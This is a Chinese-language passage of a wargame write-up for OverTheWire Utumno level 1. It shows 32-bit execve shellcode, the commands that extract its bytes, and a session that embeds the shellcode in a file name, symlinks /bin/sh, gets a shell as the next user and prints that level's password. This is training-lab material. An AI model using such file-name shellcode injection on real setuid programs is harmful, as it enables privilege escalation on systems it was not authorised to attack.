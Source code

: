 拿到IDA中分析一下。


程序大概逻辑就是检查一个文件夹里的文件，然后看有没有带`sh_`前缀的。如果有就调用run函数。动态调试可以看到run函数的逻辑就是让run函数返回地址指向`sh_文件`文件名中`sh_`后面的内容,然后程序开始执行`sh_文件`名中从`文件`开始的部分。

所以将shellcode嵌入到文件名后面即可。要注意的是touch的时候不能有`/`号,不然会以为是需要在那个文件夹下创建文件。所以就需要创建`/bin/sh`的软链接

先写一个shellcode,在`/bin/sh`版本上面改一下就ok了，名字这里改成aaaa:

```
[SECTION .text]

global _start

_start:
    xor    eax,eax
    push   eax
    push   0x61616161
    mov    ebx,esp
    xor    ecx,ecx
    xor    edx,edx
    mov    al,0xf 
    sub    al,4
    int    0x80

```

```bash
└─$  nasm -f elf32 shell.asm

└─$ ld -m elf_i386 -s -o shell shell.o

└─$ objdump -d ./shell |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' 
"\x31\xc0\x50\x68\x61\x61\x61\x61\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80"

```

登录到远程：

```bash
utumno1@utumno:/tmp/yhc$ touch sh_$(python -c 'print "\x31\xc0\x50\x68\x61\x61\x61\x61\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80"')
utumno1@utumno:/tmp/yhc$ ln -s  /bin/sh aaaa
utumno1@utumno:/tmp/yhc$ /utumno/utumno1 `pwd`
$ whoami
utumno2
$ cat /etc/utumno_pass/utumno2
ceewaceiph
$ 

```

## Utumno 02 
